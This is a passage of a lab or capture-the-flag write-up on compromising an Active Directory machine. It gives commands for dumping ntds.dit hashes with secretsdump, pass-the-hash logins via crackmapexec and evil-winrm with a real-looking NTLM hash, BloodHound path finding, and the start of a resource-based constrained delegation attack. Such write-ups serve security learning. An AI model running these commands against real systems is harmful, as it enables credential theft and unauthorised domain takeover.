 ![abcf64e5a60c3864896ab35987f94738.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Resourced/abcf64e5a60c3864896ab35987f94738.png?raw=true)

Reading about ntds.dit file I came across this [article](https://www.hackingarticles.in/credential-dumping-ntds-dit/) that shows how to dump the file to get hases:

I get  the ntds.dit file and SYSTEM file, located in /Password Audit/Registry

Using `impacket-secretsdump -ntds ntds.dit -system SYSTEM | tee secrets`  command I get the hashes

Easily parse the hashes with `cat secrets| cut -d ":" -f4 > hashes`

![a981f45e33d9a16aef0ee5a7e9c5474f.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Resourced/a981f45e33d9a16aef0ee5a7e9c5474f.png?raw=true)

## WinRM connection

After that, I check if a connection though evilwinrm is possible with crtackmapexec (Pwn3d!)

crackmapexec winrm 192.168.191.175 -u users.txt -H hashes

![04f74bae0eb4f450e19efe9655fdb97c.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Resourced/046db56c571a4d9dba18aa347f708bde.png?raw=true)

evil-winrm -i 192.168.191.175 -u 'L.Livingstone' -H '19a3a7550ce8c505c2d46b5e39d6f808'7

# Lateral movement

## Bloodhound

After establishing the connection I check some possible Privesc vectors but is nor possible, at this point I use bloodhound.

After getting the zip and uploading to the application. In node info y click over "OutboundObject Control". This gives me a possible attack path,  performing a resource based constrained delegation attack.

![b6a88243609a5d70313a1f62e8a78ffb.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Resourced/b6a88243609a5d70313a1f62e8a78ffb.png?raw=true)

# Privilege escalation

## Resource-based-constrained-delegation attack

I'll use Hactricks guide to get administative privileges. https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation

First of all I move Powerview, Powermad and rubeus.exe from my attacker machine to  the EvilWinRM session.

![2aecf55d5bc96bf52978de3fb0148a6d.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Resourced/2aecf55d5bc96bf52978de3fb0148a6d.png?raw=true)

`Import-Module .\Powermad.ps1`

`New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose`

